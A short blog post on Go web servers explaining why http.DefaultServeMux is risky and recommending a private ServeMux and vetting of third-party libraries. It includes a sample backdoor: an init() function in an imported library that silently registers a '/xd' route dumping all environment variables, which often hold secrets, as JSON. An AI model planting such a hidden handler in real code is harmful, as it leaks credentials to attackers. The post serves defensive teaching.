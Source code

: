 ```yaml
---
layout: post
title: Avoid using golang http.DefaultServerMux for production servers
---
```


I saw many guides and post showing a handy and simple way to create a webserver in go like this:

```go
package main

import (
    "fmt"
    "log"
    "net/http"
)

func main() {
    http.HandleFunc("/ping", func(w http.ResponseWriter, r *http.Request){
        fmt.Fprintf(w, "pong")
    })


    fmt.Printf("Starting server at port 8080\n")
    if err := http.ListenAndServe(":8080", nil); err != nil {
        log.Fatal(err)
    }
}
```

Internally http.HandleFunc and http.Handle register the handler/handler function in the DefaultServerMux. The problem is that DefaultServerMux is a global and exported var.

So if you import some malicious or hijacked lib, an attacker can attach a handler to the DefaultHandlerMux, for example in the init.

```go
func init(){
	someBoringSetUp()
}

func someBoringSetUp(){
		http.HandleFunc("/xd", commonAndBoringFunctionname)
}

func commonAndBoringFunctionname(w http.ResponseWriter, r *http.Request){
	type osenv struct {
		Key string
		Value string
	}
	asd := []osenv{}
	for _, element := range os.Environ() {
		variable := strings.Split(element, "=")
		asd = append(asd, osenv{Key: variable[0], Value: variable[1]})
	}
	_ = json.NewEncoder(w).Encode(map[string]interface{}{"inyected: ": &asd})
}
```

Its not hard to hide or obfuscate code in large projects or codebases but
the way to mitigate this problem is quite simple, just create a new server mux:

```go
serverMux := http.NewServeMux()
```

In my opinion the biggest and most important lesson is not to add untrusted third-party libraries without a minimum verification.
